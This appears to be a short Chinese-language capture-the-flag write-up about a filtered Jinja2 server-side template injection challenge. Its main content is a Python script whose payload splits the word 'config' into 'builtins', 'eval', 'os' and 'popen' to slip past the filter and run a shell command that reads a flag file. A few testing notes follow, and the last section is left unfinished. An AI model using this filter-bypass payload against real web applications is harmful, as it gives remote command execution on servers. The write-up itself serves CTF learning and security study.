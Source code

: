 - # 思路
	- 打带过滤的jinja2
	- 题目会替换config等关键词
	- payload
		- ```python
		  import html
		  
		  r = base_post(url, data = {
		      "name": "{%print(lipsum.__globals__.__buconfigiltins__.evaconfigl('__impconfigort__(\"oconfigs\").popconfigen(\"cat /flag_1s_Hera\").reconfigad()'))%}"
		  })
		  bs = BeautifulSoup(r.text, "html.parser")
		  text = bs.select("h1")[0].text
		  text = html.unescape(text)
		  print(text)
		  ```
- # 施工中
	- 貌似是SSTI
	- 测试
		- `{{`或`}}`
			- 错误`Parse error: syntax error, unexpected T_STRING, expecting '{' in \var\WWW\html\test.php on line 13`
		- 一个Jinja的payload
			- flask的`Internal Server Error`
		-